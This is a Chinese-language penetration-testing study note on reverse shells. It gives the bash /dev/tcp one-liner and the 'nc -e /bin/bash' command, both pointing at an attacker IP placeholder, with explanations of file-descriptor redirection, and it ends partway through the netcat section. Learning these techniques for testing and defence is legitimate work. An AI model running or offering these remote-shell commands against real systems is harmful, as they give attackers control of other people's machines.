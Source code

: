 
使用whereis命令可以确定目标支持的反弹方法。`whereis nc bash python php exec lua perl ruby java`

**bash反弹**

* 靶机运行命令：`bash -i > /dev/tcp/攻击机ip/攻击机port 0>&1 2>&1`

* ![image-20220810162714717](漏洞探测和利用.assets/image-20220810162714717.png)

  ```bash
  bash -i #代表在本地打开一个bash。
  
  0>&1 2>&1  #把0复制到1，把2复制到1
  
  /dev/tcp/ #Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接。
  
  bash -i >& /dev/tcp/ip/port 0>&1  #将stdout/stderr（1,2)重定向到与ip:port的tcp套接字中
  ```

- 
    linux文件描述符：linux shell下有三种标准的文件描述符，分别如下:

    ```bash
    0 - stdin 代表标准输入,使用<或<<
    1 - stdout 代表标准输出,使用>或>>
    2 - stderr 代表标准错误输出,使用2>或2>>
    
    >&含义：
    当>&后面接文件时，表示将标准输出和标准错误输出重定向至文件。
    当>&后面接文件描述符时，表示将前面的文件描述符重定向至后面的文件描述符
    ```

**nc反弹**

- **前提**：目标主机装了nc

- 靶机：

    ```bash
    nc -e /bin/bash [攻击机ip] [port]
    #-e prog 程序重定向，一旦连接，就执行。-e后面跟的参数代表的是在创建连接后执行的程序，这里代表在连接到远程后可以在远程执行一个本地shell(/bin/bash)，也就是反弹一个shell给远程.
    